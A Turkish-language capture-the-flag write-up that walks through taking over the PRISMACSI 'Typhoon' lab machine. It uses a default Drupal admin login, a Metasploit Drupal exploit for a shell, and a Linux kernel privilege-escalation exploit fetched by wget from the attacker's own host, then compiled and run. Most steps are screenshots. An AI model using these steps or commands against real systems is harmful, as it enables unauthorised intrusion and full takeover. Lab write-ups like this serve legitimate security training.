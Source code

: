 # PRİSMACSİ(DRUPAL) WRİTEUP
---------------------------------------------
PRISMACSI firmasının yayınladığı typhoon makinesindeki drupal ve linux kernel versiyonundan kaynaklanan zaafiyetlerden
yararlanarak ele geçirmemi anlatacağım.


## 1)İlk olaran nmap taraması yaparak açık olan portları ve üzerinde çalışan servisler hakkında bilgi topladım.

![image](/drupal/1.png)

## 2)Birçok port ve servisin çalıştığını öğrendikten sonra http üzerinden araştırmalarıma devam ettim.Hangi dizinlerin
bulunduğunu bulmak için dirbuster taraması yaptım.

![image](/drupal/2.png)

## 3)Ve drupal burda gözüme çarpan ilk şey oldu.Direk bu adrese gittim.Admin girişi yapmak için şansımı denedim ve
ilk denememde başarılı şekilde login oldum.(Username:Admin - Password:typhoon)

![image](/drupal/3.png)
![image](/drupal/4.png)

## 4)Daha drupal versiyonunu merak ettim ve wappalyzer eklentisiyle hangi teknolojilerinin kullanıldığının bilgilerini
öğreniyorum.

![image](/drupal/5.png)

## 5)Burada drupal versiyonunu araştırmaya devam ediyorum.İlk olarak searchsploit üzerinden bulunan exploitleri
listeliyorum.İşaretlemiş olduğum exploiti seçerek cve numarasını öğrenmek için exploit-db sayfasını ziyaret ettim.

![image](/drupal/6.png)
![image](/drupal/7.png)

## 6)Numarasını öğrendiğim exploiti metasploit üzerinden bulduktan sonra set ediyorum.

![image](/drupal/8.png)

## 7)Exploit için gerekli olan bilgileri girdikten sonra exploit işlemine başlıorum .Meterpreter oturumu kurulduktan
shell açıyorum.

![image](/drupal/9.png)

## 8)Sisteme giriş yaptıktan sonra bilgi toplamaya başladım.Burada linux kernel versiyonunu merak ediyorum.

![image](/drupal/10.png)

## 9)Bu versiyonu araştırmaya başlıyorum ve ilk olarak yine searchsploit üzerinden aramamı yapıyorum.Bulunan
exploitler içinden uygun olanı seçiyorum.

![image](/drupal/11.png)
![image](/drupal/12.png)

## 10)İl olarak bulduğum exploiti kendi makineme indiriyorum.Daha sonra kendi makinemden zafiyetli makineye
wget(wget http://anamakinem:8081/37292.c) aracılığla indiriyorum.İndirmiş olduğum exploiti gcc(gcc 37292.c -o exp) ile derledim sonra exploite execute(chmod + exp) yetkisi vererek çalıştırdım.
Anında root olarak root dizinine gidiyorum ve root için bırakılmış flağı okuyorum.

![image](/drupal/13.png)
![image](/drupal/14.png)



